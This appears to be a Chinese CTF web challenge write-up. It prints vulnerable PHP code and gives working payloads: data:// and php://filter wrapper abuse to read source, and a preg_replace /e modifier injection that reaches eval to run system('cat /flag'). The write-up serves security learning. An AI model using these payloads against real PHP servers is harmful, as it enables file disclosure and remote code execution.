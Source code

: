 ![[Pasted image 20221115160913.png]]
```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
    
    include($file);  //next.php
}
else{
    highlight_file(__FILE__);
}
?>
```
---
```shell
/?text=data://text/plain,I have a dream&file=next.php
```
![[Pasted image 20221115161441.png]]

话说回来如果我这样写的话不是还不如直接访问`next.php`嘛QwQ
```shell
/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

> PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K

解码后长这样
```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
有一个`getFlag()`函数，但是应该怎么调用它呢......

乍一看枚举、正则替换、回显一气呵成，貌似并没有机会

但是细看发现`preg_replace`中的正则表达式有一个没有见过的修饰符`e`

结果翻了半天官方文档也没翻到这个修饰符

翻谷歌发现这玩意早在`php 5.5.0`时代就被弃用，在`7.0.0`中被移除

查看响应中的`X-Powered-By`头，其值为`PHP/5.6.40`，刚好可以使用`e`修饰符
> 如果设置了这个被弃用的修饰符，[preg_replace()](https://www.php.net/manual/zh/function.preg-replace.php) 在进行了对替换字符串的后向引用替换之后, 将替换后的字符串作为`php`代码评估执行(`eval`函数方式)，并使用执行结果 作为实际参与替换的字符串。单引号、双引号、反斜线（`\`）和 NULL 字符在后向引用替换时会被用反斜线转义。

`'strtolower("\\1")'`中使用的是双引号，这意味着可以内插变量，利用这一点插入对`getFlag`的调用

对于`$re`，参考佬的wp，使用`\S*`以匹配所有非空白字符，同时避免`php`对某些特殊字符的处理
```php
/next.php?\S*=${getFlag()}&cmd=system('cat /flag');
```
> flag{a1a7ed7e-d4a8-403c-8d74-d1da5f631dd2} system('cat /flag');

#Web #PHP #function #伪协议 #RCE #正则表达式 #可变变量